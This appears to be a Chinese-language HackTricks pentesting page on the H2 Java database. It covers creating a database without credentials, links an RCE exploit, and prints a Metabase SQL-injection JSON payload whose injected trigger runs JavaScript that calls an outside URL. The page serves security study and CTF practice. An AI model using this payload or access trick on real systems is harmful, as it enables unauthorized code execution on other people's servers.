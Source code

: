 # H2 - Java SQL数据库

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)或**关注**我们在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

官方网站：[https://www.h2database.com/html/main.html](https://www.h2database.com/html/main.html)

## 访问

您可以指定一个**不存在的数据库名称**以**在没有有效凭据的情况下创建新数据库**（**未认证**）：

![](<../../.gitbook/assets/image (131).png>)

或者如果您知道例如**mysql正在运行**并且您知道**数据库名称**和该数据库的**凭据**，您可以直接访问它：

![](<../../.gitbook/assets/image (201).png>)

_**来自HTB的Hawk盒子的技巧。**_

## **RCE**

访问H2数据库后，请查看此漏洞以获取RCE：[https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)

## H2 SQL注入到RCE

在[**这篇文章**](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/)中，解释了一种有效载荷，通过利用**SQL注入**获取**RCE via H2数据库**。
```json
[...]
"details":
{
"db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('https://example.com/pwn134').openConnection().getContentLength()\n$$--=x\\;",
"advanced-options": false,
"ssl": true
},
[...]
```
{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
